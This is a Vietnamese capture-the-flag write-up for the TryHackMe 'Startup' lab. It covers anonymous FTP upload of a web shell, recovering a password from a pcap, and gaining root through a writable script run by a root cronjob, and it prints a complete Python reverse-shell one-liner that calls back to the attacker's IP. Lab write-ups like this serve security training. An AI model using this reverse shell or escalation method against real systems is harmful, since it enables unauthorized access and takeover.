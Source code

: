 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Startup"
date: "2021-10-15"
tags: [
    "tryhackme",
    "web",
    "linux",
    "ftp",
    "ssh",
    "cron",
    "wireshark"
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/THM-Startup/intro.webp?stayle=centerme)

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - Startup](https://tryhackme.com/room/startup). Géc gô!!!

Vẫn như thông thường thôi, việc đầu tiên cần làm là quét cổng. 

![scan-port](/assets/img/THM-Startup/scan-port.webp?stayle=centerme)

Chúng ta có 3 port đang mở:
-   port 21 với ftp server và cho phép login bằng anonymous.
-   port 22 chạy ssh trên ubuntu server
-   port 80 với Apache httpd 2.4.18 trên ubuntu server

Với port 21, tôi có vài thứ hay ho ở đây.

![port21](/assets/img/THM-Startup/port21.webp?stayle=centerme)

Trong ftp server tôi có 1 file txt và 1 file ảnh, user anonymous cũng có quyền sửa, ghi file. Vậy là tôi có thể upload file lên ftp server, tôi không chắc. Xem qua 2 file kia đã.

![notice](/assets/img/THM-Startup/notice.webp?stayle=centerme)

Tôi có 1 cái tên ở đây: __Maya__. Còn chiếc ảnh kia thì không có gì đặc biệt lắm. Tôi sẽ quay lại ftp server để put shell lên xem có được không. 

![put-shell](/assets/img/THM-Startup/put-shell.webp?stayle=centerme)

Được rồi. Bây giờ thử check web path để xem có tìm được url của file vừa up không.

![dirsearch](/assets/img/THM-Startup/dirsearch.webp?stayle=centerme)

Vào path /files và tôi tìm thấy ftp file server. 

![shell](/assets/img/THM-Startup/shell.webp?stayle=centerme)

Tạo listener với port đã cấu hình bên trong shell và thử mở file.

![get-shell](/assets/img/THM-Startup/get-shell.webp?stayle=centerme)

Ồ được rồi này. Config lại shell 1 chút với python để dễ khai thác hơn. Trong file server web chúng ta có 1 file recipe.txt. Mở file này và tôi tìm được *secret spicy soup recipe*.

Vào thư mục /home và tôi có user *lennie*. Tuy nhiên không cần có password. Tôi thử check xem có thư mục nào chạy quyền của www-data không. Và tôi tìm thấy thư mục __incidents__.

![incidents](/assets/img/THM-Startup/incidents.webp?stayle=centerme)

Trong này có 1 file pcap, clone nó về và thử check bằng Wireshark xem có tìm được gì đặc biệt không, biết đâu lại có password của Lennie. Tôi tạo http server bằng python trên máy remote và wget file pcap về máy local của mình, đáp nó vào Wireshark thôi.

Sau 1 thời gian dài ngụp lặn, tôi đã tìm được password của user lennie, trong file pcap. 

![lennie-password](/assets/img/THM-Startup/lennie-pass.webp?stayle=centerme)

Đăng nhập và tôi có user flag.

![user-flag](/assets/img/THM-Startup/user-flag.webp?stayle=centerme)

Việc tiếp theo là leo thang đặc quyền. Cùng với user flag tôi có thêm 2 folder nữa và folder __scripts__ có chứa file thực thi. Tôi sẽ khai thác nó trước. File __planner.sh__ sẽ ghi đề 1 list vào file __startup_list.txt__ và sau đó thực thi file __/etc/print.sh__. Tôi check qua file __print.sh__ thì nó đang chạy dưới quyền user lennie, điều này có nghĩa là chúng ta có thể sửa được file này.

Tôi sẽ thêm reverse shell vào file này, nhưng không thể get root được. Do file planner.sh này có thể chạy được nên tôi sẽ thử kiểm tra xem nó có phải 1 cronjob chạy dưới quyền root hay không. Và đúng là như vậy.

Nên việc tiếp theo là sửa file này để gọi reverse shell. Tôi sẽ dùng shell này

```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.**.**",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'```

À trước tiên phải tạo listener đã. 

![reverse-shell](/assets/img/THM-Startup/reverse-shell.webp?stayle=centerme)

![rooted](/assets/img/THM-Startup/rooted.webp?stayle=centerme)

Vậy là xong. Rooted!






